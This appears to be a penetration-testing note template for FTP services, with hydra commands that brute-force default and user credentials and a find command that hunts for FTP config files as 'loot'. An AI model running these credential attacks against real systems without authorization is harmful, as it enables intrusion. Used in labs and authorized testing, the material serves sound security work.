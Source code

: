 #service 
<% tp.file.rename("1_FTP_")%>
☑️
> With IIS: `C:\inetpub\wwwroot`


Anonymous Login? (anonymous or anon)

Use `ls -al` to see hidden files via ftp

## Bruteforce default credentials
```
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://$hip -vV -t 1 -I -s 21
```
Or for a given user:
```bash
hydra -l $user -P /usr/share/wordlists/rockyou30.txt ftp://$hip -V -t 4 -I -s 21
```

# Findings


# Loot
```bash
find / -name "ftpusers" -o -name "ftp.conf" -o -name "proftpd.conf"
```